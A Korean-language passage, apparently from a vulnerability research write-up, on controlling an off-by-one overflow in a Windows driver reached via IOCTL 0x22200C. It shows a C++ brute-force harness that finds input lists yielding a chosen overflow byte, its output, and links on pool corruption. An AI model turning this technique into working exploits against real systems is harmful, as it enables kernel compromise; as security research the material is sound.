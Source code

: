 # Controlling the overflow

퍼저의 결과를 다시 확인 해 보면 `0x22200C` 에서 중복 항목이 있는 토큰이 포함된 객체를 “compressing” (IOCTL 0x22200C) 해야 발생된다 라는 사실을 발견하였다. 이때 off-by-one 취약점이 발생 한다.

```cpp
// Fill input_buffer with random numbers and sort it.
 
memset(output_buffer, 0xaa, sizeof(output_buffer));
char *buf = output_buffer;
 
write_interpolative(&buf, input_buffer, 1, ARRAYSIZE(input_buffer) - 1);
 
size_t calculated = (interpolative_size(input_buffer, 1, ARRAYSIZE(input_buffer) - 1) + 7) / 8;
ptrdiff_t written = buf - output_buffer - 1;
 
if (written > 0 && calculated > 0 && written > calculated) {
  const char kSearchedByte = 0;
 
  if (output_buffer[calculated] == kSearchedByte) {
    // Print input_buffer.
  }
}
```

`interpolative_size` 와  `write_interpolative` 함수를 이용해 간단하게 브포용 프로그램을 작성해 임의의 입력 목록에 대해 overflow 테스트를 실시했다.

```powershell
C:\> brute.exe
calculated: 4, written: 11, last byte: 0x00
input_buffer = {0, 1, 1, 1, 2}
 
calculated: 1, written: 4, last byte: 0x00
input_buffer = {0, 3, 4, 5, 5}
 
calculated: 1, written: 4, last byte: 0x00
input_buffer = {5, 7, 8, 9, 9}
 
[...]
```

원하는 값에 따라 input_buffer 의 길이와 들어갈 값 넘버에 따라 조작가능하다 라는 사실을 도달하였다. 예시로 0x00 으로 [ 0 ... 9 ] 범위 내 5개의 숫자 만으로 off-by-one 취약점이 발생 한다 라는 것을 찾을 수 있었다.

# Data-only pool corruption

[https://www.vsecurity.com/download/papers/slob-exploitation.pdf](https://www.vsecurity.com/download/papers/slob-exploitation.pdf)

[The poisoned NUL byte, 2014 edition](https://googleprojectzero.blogspot.com/2014/08/the-poisoned-nul-byte-2014-edition.html)
